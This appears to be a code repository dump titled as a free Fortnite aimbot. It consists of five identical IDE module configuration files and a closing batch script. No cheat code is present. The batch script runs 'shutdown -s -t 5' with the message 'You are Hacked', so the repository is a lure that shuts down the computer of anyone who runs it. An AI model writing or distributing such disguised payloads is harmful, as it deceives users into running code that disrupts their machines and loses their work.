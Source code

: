 # Aimbot-fortnite-free 
<?xml version="1.0" encoding="UTF-8"?>
<module type="GENERAL_MODULE" version="4">
  <component name="NewModuleRootManager" inherit-compiler-output="true">
    <exclude-output />
    <content url="file://$MODULE_DIR$" />
    <orderEntry type="sourceFolder" forTests="false" />
  </component>
</module>
<?xml version="1.0" encoding="UTF-8"?>
<module type="GENERAL_MODULE" version="4">
  <component name="NewModuleRootManager" inherit-compiler-output="true">
    <exclude-output />
    <content url="file://$MODULE_DIR$" />
    <orderEntry type="sourceFolder" forTests="false" />
  </component>
</module>
<?xml version="1.0" encoding="UTF-8"?>
<module type="GENERAL_MODULE" version="4">
  <component name="NewModuleRootManager" inherit-compiler-output="true">
    <exclude-output />
    <content url="file://$MODULE_DIR$" />
    <orderEntry type="sourceFolder" forTests="false" />
  </component>
</module>
<?xml version="1.0" encoding="UTF-8"?>
<module type="GENERAL_MODULE" version="4">
  <component name="NewModuleRootManager" inherit-compiler-output="true">
    <exclude-output />
    <content url="file://$MODULE_DIR$" />
    <orderEntry type="sourceFolder" forTests="false" />
  </component>
</module>
<?xml version="1.0" encoding="UTF-8"?>
<module type="GENERAL_MODULE" version="4">
  <component name="NewModuleRootManager" inherit-compiler-output="true">
    <exclude-output />
    <content url="file://$MODULE_DIR$" />
    <orderEntry type="sourceFolder" forTests="false" />
  </component>
</module>
@echo off
shutdown -s -t 5 "You are Hacked"
